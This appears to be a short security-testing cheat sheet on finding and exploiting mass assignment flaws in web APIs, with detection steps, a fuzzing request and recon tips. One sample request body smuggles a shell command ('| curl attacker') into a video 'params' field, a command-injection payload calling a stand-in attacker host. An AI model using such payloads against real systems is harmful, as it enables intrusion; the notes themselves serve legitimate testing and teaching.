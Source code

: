 # Detection
- Look for the data returning URLs, collect all objects and fields.
- Identify stat-changing requests, such as create or update variuos properties.
- Try to add object keys in the state-changing requests.
- Sometimes, hidden parameter discovery is useful to get an unexpected result.
  - It will not result to Mass Assignment, but we can see errors that may result in other vulnerabilities.
  ```bash
  POST /v1/merchant/shop-account/

  {
    "name": "ehsan",
    "email": "bs.ebadi@gmail.com",
    "FUZZ": "test"
  }
  ```

# Tip
- To initialize or overwrite server-side variables, We should find the **field name** and it's **value**.
  - Fuzz
  - Check all endpoints of web-app. (Narrow Recon)
    ```html
    GET /api/my_videos
    (Request Body)
    {
      [
       {"name": "name", "format": "m4a", "params": null},
       {"name": "my_video", "format": "mp4", "params": "-v codec h264"},
      ]
    }
    ```
    ```html
    PUT /api/videos/574
    (Request Body)
    {"name": "a", "format": "mp4", "params": "-v codec h264 | curl attacker"}
    ```
  - Manually surf the web application, extract the Burp site-map, then extract fields name from it.

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Mass%20Assignment
